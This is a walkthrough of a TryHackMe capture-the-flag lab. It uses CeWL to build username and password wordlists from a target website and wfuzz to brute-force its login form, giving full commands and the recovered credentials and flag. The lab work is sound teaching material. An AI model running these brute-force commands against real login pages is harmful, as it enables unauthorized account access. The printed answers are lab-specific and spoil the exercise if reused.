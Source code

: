 # Day 4: [Brute-forcing] Baby, it's CeWLd outside
Additional walktrough [video](https://www.youtube.com/watch?v=O2PJ_RzWp9g)


## Required Tools
1. **CeWL** (pronounced "cool")
   * Install CeWL if it's not available in your VM
     * ```sudo apt-get install cewl -y```
   * Features:
     * CeWL crafts wordlists specifically from the content of a targeted website.
     * CeWL can spider a website to a specified depth
     * Provides various options to fine-tune the wordlist
     * Includes functionalities such as username enumeration from author meta tags and email extraction
     * Integration with other tools, can be integrated seamlessly into automated workflows
     * Actively maintained and updated
   * Customise the Output for Specific Tasks
     * Specify spidering depth:
       * The ```-d``` option allows you to set how deep CeWL should spider. For example, to spider two links deep: ```cewl http://MACHINE_IP -d 2 -w output1.txt```
     * Set minimum and maximum word length: 
       *  Use the ```-m``` and ```-x``` options respectively. For instance, to get words between 5 and 10 characters: cewl ```http://MACHINE_IP -m 5 -x 10 -w output2.txt```
     * Handle authentication:
       *  If the target site is behind a login, you can use the ```-a``` flag for form-based authentication.
     * Custom extensions:
       *  The ```--with-numbers``` option will append numbers to words, and using ```--extension``` allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
     * Follow external links:
       *  By default, CeWL doesn't spider external sites, but using the ```--offsite``` option allows you to do so.

2. **wfuzz**
   * Tool designed for brute-forcing web applications
   * Used to find resources like servlets, scripts, etc, brute-force GET and POST parameters for checking different kinds of injections (SQL, XSS, LDAP), brute-force forms parameters (user/password) and fuzzing
   * ```wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"```
     * ```-z file,usernames.txt``` loads the usernames list.
     * ```-z file,passwords.txt``` uses the password list generated by CeWL.
     * ```--hs "Please enter the correct credentials"``` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
     * ```-u``` specifies the target URL.
     * ```-d "username=FUZZ&password=FUZ2Z"``` provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.

3.  Can use ```ffuf``` and ```hydra``` as well

## Steps
1. Connect to the TryHackMe's VPN (or use AttackBox)

2. The objective is to get username & password for the website  and gain flag in the e-mail
   * ![Questions](Pictures/1.png)

3. Generate password list using CeWL
   * ```cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers```

4. Generate username list using CeWL
   * ```cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase user@tryhackme$ cat usernames.txt```

5. Brute-force the login portal (```/login.php```) using wfuzz with list generated
   * ```wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"```

6. Wait wfuzz to finish the brute-force process
   * Username: isaias
   * Password: Happiness
   * ![wfuzz](Pictures/2.png)

7. Login to the website using credential we got

8. Open e-mails in the website to find the flag
   * THM{m3rrY4nt4rct1crAft$}
   * ![flag](Pictures/3.png)

9. Submit username, password, and flag found 
   * ![THM Submit](Pictures/4.png)